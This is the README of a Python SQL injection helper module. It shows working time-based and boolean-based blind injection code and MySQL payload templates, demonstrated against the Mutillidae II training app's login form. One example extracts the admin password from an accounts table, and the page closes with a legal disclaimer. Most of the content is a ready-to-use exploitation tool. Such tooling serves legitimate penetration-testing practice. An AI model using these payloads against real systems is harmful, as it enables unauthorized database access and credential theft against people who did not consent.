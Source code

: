# sqli-helper
Python module for speed-up SQLI exploitation (Blind or other)

The extraction use [Binary search algorithm](https://en.wikipedia.org/wiki/Binary_search_algorithm) for define which candidate is the good value.

## Usages
(the examples are for Login of [mutillidae II](https://github.com/webpwnized/mutillidae) )

### Define the function who execute the requests

This fuction must match to `(request: str) -> bool`.

This function include then target specific logic (encodage, token, method, ...)

##### Time Based Injection 

```python
sleep_duration = 1

def exec_request(request: str) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' AND {request} #",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers)
    return res.elapsed.seconds >= sleep_duration
```
##### Boolean Based Injection

```python
def exec_request(payload: str) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' {payload}",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers, allow_redirects=False)
    return res.status_code == 302
```

### Check if target is vulnerable for payload

```python
# define the template of the Injection
# Basis MySQL Time based template
template = string.Template(f'OR (SELECT 1 FROM (SELECT(SLEEP(IF(($request)$test,{sleep_duration},0))))a) # ')
# Basis MySQL Boolean based template
# template = string.Template('OR ($request)$test # ')

binder = SqliExploit(MySqlConfig(), exec_request)
# Is target vulnerable ?
if(binder.check("SELECT 1")):
    print("Target is Vulnerable")
else:
    print("Target is not Vulnerable")
    exit()
```

### Exctract Data from a cell 
```python
# define the template of the Injection
# Extract text MySQL Time based template
template = string.Template(f'OR (SELECT 1 FROM (SELECT(SLEEP(IF(ORD(MID(($request),$index,1))$test,{sleep_duration},0))))a) # ')
# Extract text MySQL Boolean based template
# template = string.Template('OR ORD(MID(($request),$index,1))$test # ')

# extract pass
# the expected values are ASCII alphanum
candidates = SqliExploit.string_to_candidates(string.ascii_letters + string.digits)

binder.prepare_new(candidates, template=template)

result = binder.extract_cell("SELECT password FROM accounts WHERE username = 'admin' LIMIT 0,1")
print("pass for 'admin' : ", "".join(map(chr, result)))
```

More examples in 'example' folder

## Legal disclaimer

Use of this script for attacking a target without mutual consent is illegal. It's is the end user responsibility to obey all applicables laws for his location Developers assume no lisibility and are not responsible for any misuse or domage caused by this program
